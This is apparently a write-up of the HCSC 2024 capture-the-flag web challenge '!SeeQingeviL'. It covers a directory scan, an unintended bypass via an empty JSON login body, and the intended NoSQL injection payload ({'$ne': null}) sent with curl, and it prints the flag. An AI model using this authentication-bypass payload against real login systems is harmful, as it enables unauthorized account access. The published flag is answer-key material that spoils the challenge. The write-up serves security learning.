



# HCSC 2024 - !SeeQingeviL

## Description

> Summer: Nagypapa Mr.Needful megint elkezdte a hülye Web3 projektjét!<br>
> Rick: B***** meg magát úgy látszik megint meg kell verni, hagyd hogy nagypapa dolgozzon.<br>
> Morty: Hey Rick mit csináltok?<br>
> Summer: Mr. Needful-t sz***** meg megint.<br>
> Rick: éééés kész csináltam erre a f*** oldalra fiókokat, úgy látom van egy admin is azt kéne átvenni.<br>
> Morty: Ohh istenem Rick nincs erre valami egyszerűbb megoldás?<br>
> Rick: Nincs b***** Fogd be a szád és tedd hasznossá magad.

Készítői kommentek:
 - VPN kapcsolat szükséges
 - A flag-et pontosan kell beírni

By: `incarrnati0n`

> Hint 1 (cost 125): Olvasd el a challenge nevét mégegyszer, biztos csak két oldal van?

## Metadata

- Tags: `web`, `sqli`, `nosqli`
- Points: `250`
- Number of solvers: `30`

## Solution

The challenge was available at `10.10.(1-9).12:50211`, for example: <http://10.10.1.12:50211>



Let's run `feroxbuster` first:

```
$ feroxbuster -u http://10.10.5.12:50211/
[...]
400      GET        1l        1w       19c http://10.10.5.12:50211/login
301      GET        0l        0w        0c http://10.10.5.12:50211/css => css/
200      GET       65l      167w     2232c http://10.10.5.12:50211/html/items.html
200      GET       33l       79w     1132c http://10.10.5.12:50211/html/login.html
301      GET        0l        0w        0c http://10.10.5.12:50211/index.html => ./
200      GET       52l       93w      801c http://10.10.5.12:50211/css/style.css
200      GET       62l      109w      696c http://10.10.5.12:50211/css/reset.css
[...]
```

There is an interesting `/html/login.html` page. This page is also referenced from the `/html/` page.





The page POSTs the following JSON to `/login`:

```json
{"name":"<USERNAME>","password":"<PASSWORD>"}
```

The answer is mostly `401 Unauthorized` with the message: `{"MrMeeseeks": "NO CAN DO!"}`

The name of the challenge hints for some kind of SQL injection. I've tried fuzzing the two parameters without luck. Then I've tried sending an empty JSON (`{}`) and I've got the flag.

```bash
$ curl -X 'POST' -d '{}' http://10.10.5.12:50211/login
{"Flag": "HCSC24{WUBBA_LUBBA_DUB_DUB!}"}
```

This was an unintended solutions. The intended solution was a NoSQL injection payload like:

```json
{"name": {"$ne": null}, "password": {"$ne": null}}
```

```bash
$ curl -X 'POST' -d '{"name": {"$ne": null}, "password": {"$ne": null}}' http://10.10.5.12:50211/login
{"Flag": "HCSC24{WUBBA_LUBBA_DUB_DUB!}"}
```

> Fun fact: Some players have also found the challenge source and the flag in a public GitHub repo (which was later changed to private)

Flag: `HCSC24{WUBBA_LUBBA_DUB_DUB!}`